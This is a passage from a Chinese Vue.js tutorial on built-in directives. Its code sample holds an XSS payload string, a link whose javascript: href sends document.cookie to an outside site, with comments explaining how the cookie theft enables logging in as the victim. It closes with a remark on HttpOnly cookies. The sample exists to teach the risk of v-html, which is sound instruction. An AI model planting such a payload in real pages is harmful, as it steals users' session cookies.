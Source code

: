 ```html
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				// 如果此元素被解析到页面上
				// 那么将会生成一个超链接标签
				// 当用户点击后
				// 由于 location.href="http://www.baidu.com?"+document.cookie
				// 本网站的cookie将被获取，同时跳转到指定页面，将本网站的cookie发送给跳转网站的服务器
				// 这样子别人就能够获取和使用我们的cookie进行登录或者其他操作
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

> ![在这里插入图片描述](./assets/18.Vue的其他内置指令/384f72a6cbd1b6a9f0e462b55bc7532a.png)
> ![在这里插入图片描述](./assets/18.Vue的其他内置指令/cdf7c9a7afe63956c0d85149a9b3254f.png)
> ![在这里插入图片描述](./assets/18.Vue的其他内置指令/4ef0d6df66fa98ab09effb7c7a04eb52.png)

Cookie中，勾选了HttpOnly的内容不能通过document.cookie直接获取，只能通过http协议获取，http协议之外的任何方式都不能得到。
